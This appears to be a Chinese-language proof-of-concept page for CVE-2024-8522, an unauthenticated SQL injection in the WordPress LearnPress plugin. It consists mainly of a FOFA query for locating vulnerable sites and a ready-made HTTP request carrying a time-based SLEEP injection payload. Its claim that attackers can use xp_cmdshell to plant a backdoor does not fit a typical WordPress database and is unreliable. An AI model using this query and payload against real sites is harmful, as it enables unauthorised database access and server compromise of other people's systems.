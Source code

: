 # WordPress系统插件LearnPress存在SQL注入漏洞(CVE-2024-8522)

WordPress系统插件LearnPress存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```javascript
body="/wp-content/plugins/learnpress"
```

## poc

```javascript
GET /wp-json/learnpress/v1/courses?c_only_fields=IF(COUNT(*)!=-2,(SLEEP(8)),0) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
```

![image-20240926094748650](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409260948413.png)